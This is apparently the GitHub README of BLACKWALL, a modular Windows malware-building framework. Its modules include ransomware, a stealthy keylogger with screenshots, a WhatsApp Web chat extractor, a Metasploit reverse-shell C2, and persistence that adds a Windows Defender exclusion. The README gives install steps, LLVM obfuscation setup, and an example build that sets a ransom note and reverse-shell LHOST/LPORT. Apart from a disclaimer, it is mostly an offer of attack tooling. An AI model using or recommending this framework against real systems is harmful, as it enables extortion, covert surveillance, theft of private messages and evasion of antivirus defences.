 ## What's New

### VERSION 0.1.2
- **New Module: `daemon/alt`** - Advanced keylogger with screenshot capability
- **Features:**
  - Stealthy keylogging triggered by '@' key press
  - Automatic screenshot capture on trigger
  - Hidden file storage in `.alt` folder in Downloads with random filenames

### VERSION 0.1.1
- **New Module: `daemon/chatwipe`** - WhatsApp chat extractor that automatically extracts the chats from a user's WhatsApp Web session in Google Chrome
- **Features:**
  - Automatically detects Chrome installation and WhatsApp Web login
  - Extracts both incoming and outgoing messages with timestamps

---

## Overview
**BLACKWALL** is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. BLACKWALL is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **In-Memory Execution:** Optional Rust loader for stealthy, in-memory payload delivery.
- **Obfuscation Support:** Optional payload obfuscation via LLVM and Rust.
- **Cross-Platform Build:** Uses Go and Rust for robust Windows payloads.
- **Fast Build Pipeline:** Output is saved to the `.LOOT` directory.

---

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/sarwaaaar/BLACKWALL.git
   cd BLACKWALL
   ```
2. **Install Python 3.8+**
   ```bash
   python3 --version
   ```
3. **Install system dependencies:**
   - Go (for module compilation)
   - Rust (for in-memory loader)
   - **Docker** (required for payload obfuscation)
     - Pull the required Docker image for obfuscation:
       ```bash
       docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
       ```
     - This image is used to obfuscate Rust payloads using LLVM during the build process.
   - On macOS:
     ```bash
     brew install go rust
     ```
   - On Linux:
     ```bash
     sudo apt install golang rustc cargo
     ```

---

## Usage

Start the tool:
```bash
python3 main.py
```

### Command Reference

- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [BLACKWALL Wiki](https://github.com/sarwaaaar/BLACKWALL/wiki).**

### Example Workflow
```
> show modules
> use daemon/bartmoss
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use daemon/spider
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Available Modules

| Module                   | Description                                                        |
|--------------------------|--------------------------------------------------------------------|
| daemon/filedaemon        | Normal C2 server to receive data                                   |
| daemon/spider            | Metasploit C2 server (reverse shell/payload delivery)              |
| daemon/bartmoss          | Ransomware builder                                                 |
| daemon/chatwipe          | WhatsApp chat extractor   |
| daemon/alt               | Advanced keylogger with screenshot capability                      |
| interfaceplug/blackout   | Screen blackout utility                                            |
| interfaceplug/suicide    | Block input (DoS)                                                  |
| quickhack/ping           | Sends back user info to the C2 server                              |
| quickhack/icepick        | Adds EXE to persistence and adds exclusion to Windows Defender      |

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

BLACKWALL is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.

